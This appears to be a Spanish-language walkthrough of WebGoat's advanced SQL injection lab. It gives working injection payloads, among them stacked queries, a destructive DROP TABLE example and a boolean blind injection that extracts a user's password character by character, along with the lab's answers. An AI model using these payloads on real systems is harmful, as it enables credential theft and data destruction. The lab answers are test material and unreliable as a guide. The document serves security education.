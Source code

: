 # A1 Injection

La sección A1 de webgoat se refiere a las inyecciones SQL que son utilizadas para hacer que la aplicación se comporte de una manera no prevista por el desarrollador.

##### URL para ingresar a webgoat
+ http://localhost:8080/WebGoat/

# SQL Injection (Advanced)

## Preámbulo
Existen diversos carácteres especiales y sentencias que se pueden utilizar en SQL:

**Comentarios:**
```sql
/* */ 	 are inline comments
-- , # 	 are line comments

Example: SELECT * FROM users WHERE name = 'admin' --AND pass = 'pass'
```

**Encadenamiento de comandos:**
```sql
-- ;        allows query chaining

SELECT * FROM users; DROP TABLE users;
```

**Concatenación de cadenas**
```sql
-- ',+,||	 allows string concatenation
-- Char()	 strings without quotes

SELECT * FROM users WHERE name = '+char(27) OR 1=1
```

**Operador UNION**
Este operador se utiliza para combinar resultados de dos combinaciones SELECT. Se debe considerar lo siguiente:
+ El número de columnas en cada declaración debe ser el mismo
+ Los tipos de datos deben coincidir 
+ La sentencia `UNION ALL` permite resultados duplicados

```sql
SELECT first_name FROM user_system_data UNION SELECT login_count FROM user_data;
```

**Operador JOIN**
Combinar filas de dos o más tablas, en función de una columna relacionada.
```sql
SELECT * FROM user_data INNER JOIN user_data_tan ON user_data.userid=user_data_tan.userid;
```

## Ejercicio 1 (3)

#### Obten toda la información de las tablas


```sql
'SELECT * FROM user_data WHERE last_name = ''; SELECT * FROM user_system_data ;--'
```

#### Cuando lo obtengas responde cuál es el password de Dave
![Ejercicio 1](img2/ejercicio1.jpeg)
* El password es: `passW0rD`

## Blind SQL injection (Inyección SQL a ciegas u oculto)
Este es un tipo de inyección que hace preguntas de `verdadero` o `falso` y define el resultado en función de las respuestas del servidor. Este tipo de ataque se utiliza cuando el desarrollador no muestra los mensajes tipicos de error, pero no suprime la vulnerabilidad.
+ SQL basado en contenido
+ SQL basado en tiempo

**Ejemplos:**

Suponiendo que tienes un sitio con la url `https://my-shop.com?article=4 ` puedes deducir que por detŕas corre una sentencia del siguiente estilo

```sql
SELECT * FROM articles WHERE article_id = 4
```

Podemos explotar esta vulnerabilidad ingresando `https://shop.example.com?article=4 AND 1=1` que eventualmmente se interpretará como:

```sql
SELECT * FROM articles WHERE article_id = 4 and 1 = 1
```
+ Si esto nos sigue devolviendo la misma página que cuando se usaba `https://my-shop.com?article=4 ` significa que el sitio es propenso a inyección SQL a ciegas
+ Si nos regresa un `page not found` es probable que no sea vulnerable

Podemos aprovechar la sentencia anterior mediante `https://shop.example.com?article=4 AND substring(database_version(),1,1) = 2`. Una vez que sabemos que se puede explotar esto es solamente cuestión de creatividad y suerte de que la BD no esté correctamente configurada para localizar tablas de la BD sensibles. 

También podemos realizar una inyección basada en tiempo:
+ `article = 4; sleep(10) --`

## Ejercicio 2 (5)

#### Haz login como Tom

En este ejercicio se nos pide que hagamos login como el usuario Tom. Interactuando con el campo login podemos observar que:
+ Si tratamos de registrar a el usuario `tom` 
    + User tom already exists please try to register with a different username.
+ Si tratamos de registrar a el usuario `tom' AND '1' = '1`
    + User {0} already exists please try to register with a different username.
+ Si tratamos de registrar a el usuario `tom' AND '1' = '2`
    + User tom' AND '1' = '2 created, please proceed to the login page.

Por lo que podemos inferir que cada que nos diga que `User {0} already exists please try to register with a different username.` significará que hemos inferido algo correcto sobre la consulta. Ahora, hay que utilizar esto para buscar a el password.

Podemos pensar que existe un campo llamado `password` en que se almacenan las contraseñas.

Y entonces introducir mediante un `substring(password,1,1)` obtener la primera letra del password.

**Proceso de deducción** (Note que se cambiar los parametros de `substring`)

1. Probamos con **t** de **tom**
    + `tom' AND substring(password,1,1)='t`
    + Nos devuelve verdadero (`User {0} already exists please try to register with a different username.`)
2. Probamos con **to** de **tom**
    + `tom' AND substring(password,1,2)='to`
    + Nos devuelve falso (`User tom' AND substring(password,2,2)='o created, please proceed to the login page.`)
3. Probamos con **th** de **the** (Por *thepassword* o algo por el estilo)
    + `tom' AND substring(password,1,2)='th`
    + Nos devuelve verdadero (`User {0} already exists please try to register with a different username.`)
3. Probamos con **the** de **he**
    + `tom' AND substring(password,1,3)='the`
    + Nos devuelve falso (`User tom' AND substring(password,2,2)='o created, please proceed to the login page.`)
4. Probamos con **this** de **this** (thisisthepassword) o algo así
    + `tom' AND substring(password,1,4)='this`
    + Nos devuelve verdadero (`User {0} already exists please try to register with a different username.`)

Siguiendo con el mismo proceso, (palabra comun) llegamos hasta este punto
1. Inferir `this`
1. Inferir `thisis`
1. Inferir `thisisthe`
1. Inferir `thisisthepassword`
    + Probamos y no es el password :c
1. Inferir `thisisthepasswordfor`
1. Hasta llegar a `thisisasecretfortomonly`

Donde finalmente el password resulta ser:
+ `thisisasecretfortomonly`

Un ideal debería ser programar una herramienta que haga todo este proceso por nosotros.


## Ejercicio 3 (6)

#### Responder correctamente el test

**¿Cuál es la diferencia entre una declaración preparada y una declaración?**
+ A statement has got values instead of a prepared statement
+ Una declaración tiene valores en lugar de una declaración preparada

**¿Cuál de los siguientes caracteres es un marcador de posición para las variables?**
+ ?

**¿Cómo pueden las declaraciones preparadas ser más rápidas que las declaraciones?**
+ Placeholders can prevent that the users input gets attached to the SQL query resulting in a seperation of code and data.Prepared statements are compiled once by the database management system waiting for input and are pre-compiled this way.
+ Las declaraciones preparadas son compiladas una vez por el sistema de gestión de la base de datos en espera de entrada y se compilan previamente de esta manera.

**How can a prepared statement prevent SQL-Injection?**
+ Placeholders can prevent that the users input gets attached to the SQL query resulting in a seperation of code and data.
+ Los marcadores de posición pueden evitar que la entrada de los usuarios se adjunte a la consulta SQL, lo que resulta en una separación de código y datos.

**Prepared statements always read inputs literally and never mixes it with its SQL commands.**
+ The database registers 'Robert' ); DROP TABLE Students;--'.
+ La base de datos registra literalmente 'Robert' ); DROP TABLE Students;--'.